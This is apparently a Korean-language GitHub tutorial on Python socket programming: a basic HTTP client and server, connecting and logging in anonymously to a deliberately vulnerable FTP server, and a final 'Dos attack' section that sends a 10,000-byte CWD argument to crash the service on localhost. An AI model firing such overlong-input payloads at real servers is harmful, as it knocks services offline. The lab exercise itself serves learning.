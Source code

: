 # FTP-HTTP-Server-Attacks

# 소켓 클라이언트 구현 및 접속
```python
import socket 
s = socket.socket() # 생략하면 TCP 통신
s.connect(("142.251.42.206", 80)) # nslookup google.com

s.send(b"GET / HTTP/1.1\\r\\nhost: google.com\\r\\n\\r\\n") # 네트워크 통신을 위해 바이트 코드로 구성

data = s.recv(1024) print(data.decode()) s.close()

```
```python
s = socket.socket()
address = ("0.0.0.0", 8080)
# 0.0.0.0 모든 IP 요청을 받겠다는 의미
# 127.0.0.1로 입력하면 127.0.0.1로 접속한 요청만 받겠다는 의미

s.bind(address)
s.listen() # 서비스 시작

conn, addr = s.accept() # 외부에서 들어오는 connect를 수락
# conn은 클라이언트와 직접 소통하는 또다른 소켓
# addr은 클라이언트의 정보
conn.recv(1024) # GET 요청을 받고

data = b'''\
HTTP/1.1 200 OK
Server: Python
Content-Type: text/html;

<html>
<h1>Hello HTTP</h1>
</html>

'''


conn.send(data) # 응답을 보낸다.
s.close()
```
## 취약한 FTP 설치 및 접속
```python
import socket 
s = socket.socket()

addr = ("127.0.0.1", 21)

s.connect(addr)

data = s.recv(1024)

print(data.decode()) # 배너 출력 s.close()
```

![image](https://user-images.githubusercontent.com/93520535/199989427-42ec7d64-7df9-4f39-9359-b951163afe68.png)

```python
import socket

s = socket.socket()
addr = ("127.0.0.1", 21)
s.connect(addr)
data = s.recv(1024)
print("banner:", data.decode()) # 배너 출력

# 로그인 
s.send(b"USER anonymous")
data = s.recv(1024)
print(data.decode())

s.send(b"PASS anonymous")
data = s.recv(1024)
print(data.decode()) # 로그인 성공!

s.close()
```
## Dos attack
```python
import socket

s = socket.socket()
addr = ("127.0.0.1", 21)
s.connect(addr)
data = s.recv(1024)
print("banner:", data.decode()) # 배너 출력

# 로그인 
s.send(b"USER anonymous")
data = s.recv(1024)
print(data.decode())

s.send(b"PASS anonymous")
data = s.recv(1024)
print(data.decode()) # 로그인 성공!

s.send(b"CWD " + b"A" * 10000)
data = s.recv(1024)
print(data.decode()) # dos공격

s.close()
```








